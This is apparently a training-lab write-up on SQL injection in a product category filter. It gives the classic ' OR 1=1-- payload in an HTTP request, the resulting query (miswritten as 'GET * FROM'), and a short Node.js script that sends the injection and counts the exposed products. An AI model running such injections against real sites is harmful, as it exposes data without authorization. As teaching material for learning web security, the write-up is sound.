 ```yaml
---
description: >-
  In Lab One, we see a simple SQL injection vulnerability in a WHERE clause
  allowing for the retrieval of hidden data.
---
```


# 1 - Retrieve Hidden Data

### Notes

The SQLi exists in the `category` query parameter used by the product category filter feature:

```http
GET /filter?category=%27+OR+1=1-- HTTP/1.1
```

The underlying query therefor becomes something like:

```sql
GET * FROM products WHERE category='' OR 1=1--'
```

### Scripted Solution

```javascript
const { JSDOM } = require('jsdom')
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const levelUrl = process.env.LEVEL_URL

  // Get number of products visible on lab home page
  console.log('Getting home page product count...')
  const homeDom = await JSDOM.fromURL(levelUrl)
  const homeProductNodes = homeDom.window.document.querySelectorAll(
    '.container-list-tiles div'
  )
  console.log(`Number of home page products: ${homeProductNodes.length}.`)

  // Get number of products after SQL injection exploit
  console.log('Performing SQLi and getting updated product count...')
  const SQLi = "'+OR+1=1--"
  const SQLiDom = await JSDOM.fromURL(`${levelUrl}/filter?category=${SQLi}`)
  const SQLiProductNodes = SQLiDom.window.document.querySelectorAll(
    '.container-list-tiles div'
  )
  console.log(`Number of home page products: ${SQLiProductNodes.length}.`)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
